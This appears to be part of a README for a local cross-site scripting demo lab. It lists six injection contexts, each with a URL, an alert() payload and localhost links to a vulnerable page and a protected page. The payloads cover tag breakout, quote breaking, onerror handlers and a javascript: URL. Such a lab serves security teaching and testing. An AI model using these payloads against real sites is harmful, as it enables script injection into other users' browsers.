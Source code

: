 1. **HTML Context**:
   - URL: `index.php?htmlcontext=<script>alert('XSS')</script>`
   - Payload: `<script>alert('XSS')</script>`
   - [Link](http://localhost:8080/index.php?htmlcontext=%3Cscript%3Ealert(%27XSS%27)%3C%2Fscript%3E)
   - [Link](http://localhost:8080/protected.php?htmlcontext=%3Cscript%3Ealert(%27XSS%27)%3C%2Fscript%3E)

2. **Attribute Context without quotes**:
   - URL: `index.php?attributecontext1=><script>alert('XSS')</script`
   - Payload: `> <script>alert('XSS')</script`
   - [Link](http://localhost:8080/index.php?attributecontext1=%3E%20%3Cscript%3Ealert(%27XSS%27)%3C%2Fscript)

   - Payload: `javascript:alert('XSS')`
   - [Link](http://localhost:8080/protected.php?attributecontext1=javascript:alert())

3. **Attribute Context with double quotes**:
   - URL: `index.php?attributecontext2=" onerror="alert('XSS')`
   - Payload: `" onerror="alert('XSS')`
   - [Link](http://localhost:8080/index.php?attributecontext2=%22%20onerror=%22alert(%27XSS%27))
   - [Link](http://localhost:8080/protected.php?attributecontext2=%22%20onerror=%22alert(%27XSS%27))

4. **Attribute Context with single quotes**:
   - URL: `index.php?attributecontext3=' onerror='alert("XSS")`
   - Payload: `' onerror='alert("XSS")`
   - [Link](http://localhost:8080/index.php?attributecontext3=%27%20onerror=%27alert(%22XSS%22))
   - [Link](http://localhost:8080/protected.php?attributecontext3=%27%20onerror=%27alert(%22XSS%22))

5. **Script Context**:
   - URL: `index.php?scriptcontext=</script><script>alert('XSS')</script>`
   - Payload: `</script><script>alert('XSS')</script>`
   - [Link](http://localhost:8080/index.php?scriptcontext=%3C%2Fscript%3E%3Cscript%3Ealert(%27XSS%27)%3C%2Fscript%3E)
   - [Link](http://localhost:8080/protected.php?scriptcontext=%3C%2Fscript%3E%3Cscript%3Ealert(%27XSS%27)%3C%2Fscript%3E)

6. **Onerror Attribute Context**:
   - URL: `index.php?attributecontextonerror=alert('XSS')`
   - Payload: `alert('XSS')`
   - [Link](http://localhost:8080/index.php?attributecontextonerror=alert('XSS'))
   - [Link](http://localhost:8080/protected.php?attributecontextonerror=alert('XSS'))
